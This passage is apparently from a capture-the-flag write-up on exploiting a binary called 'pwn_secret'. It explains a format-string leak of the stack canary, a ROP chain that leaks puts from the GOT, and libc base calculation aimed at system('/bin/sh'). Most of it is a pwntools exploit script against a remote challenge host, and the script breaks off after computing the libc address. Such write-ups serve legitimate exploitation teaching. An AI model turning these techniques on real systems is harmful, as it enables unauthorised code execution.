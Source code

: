 **Good! We now control the execution flow of the program.**

We need to find a way to leak where are libc functions loaded at in memory. We can do that by calling _puts_ to print out a GOT(global offsets table) entry.

> [+] Puts found: 0x7f51a0dd8690

Now we can find the libc version by going to https://libc.blukat.me/

Let's download this version.

By having the address of _puts_ we know where the libc base is loaded in memory(leakedPuts-putsOffset). Therefore we know the address of the _system_ function from libc, as well as the "/bin/sh" string.

**We have everything we need. Let's get a shell!**

Here's the final exploit.

```python
from pwn import *

e = ELF("./pwn_secret")
libc = ELF("./libc6_2.23-0ubuntu10_amd64.so")
#p = e.process()
p = remote("34.141.123.136", 31869)

context.binary = e

#leak canary
p.recvline()
p.recvuntil(b"Name: ")
p.sendline(b"%15$p.%16$p") #format string payload

output = p.recvline().decode()

canary = output.split(".")[0][+8:]
log.success("Canary found: %s" % canary) #canary leak
canary = int(canary, 16)

main_leak = int(output.split(".")[1][:-1], 16)
log.success("Main leak found: %s" % hex(main_leak)) #__libc_csu_init leak

#Here we set the program's base address in memory
e.address = main_leak - 3136 #3136 is the offset of __libc_csu_init

p.recvuntil(b"Phrase: ")

#First ROP chain to leak puts GOT entry
rop = ROP(e)
rop.call(e.plt["puts"], [ e.got['puts'] ] )
rop.call(e.sym["main"])

offset = 144

payload = b"A" * 136 + p64(canary) + b"B" * 8 + rop.chain() #the canary is at offset 136
p.sendline(payload)
p.recvuntil(b"same!")
p.recvline()

puts_leak = u64(p.recvline().strip(b"\n").ljust(8, b"\x00"))

log.success("Puts found: %s" % hex(puts_leak))

#Here we set libc's base address in memory
libc.address = puts_leak - libc.sym['puts']

```